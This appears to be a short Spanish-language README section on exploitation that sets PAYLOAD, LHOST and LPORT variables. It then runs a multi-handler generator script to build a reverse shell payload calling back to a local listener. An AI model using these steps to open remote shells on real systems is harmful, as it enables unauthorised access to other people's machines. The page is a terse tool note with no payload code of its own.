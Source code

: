 # Seccion de explotacion

## Shell reversa

Previamente `export PAYLOAD=<nombre-payload>; export LHOST=<IP-local>; export LPORT=<puerto local>`

1) multi-handler/generator.sh $PAYLOAD $LHOST $LPORT
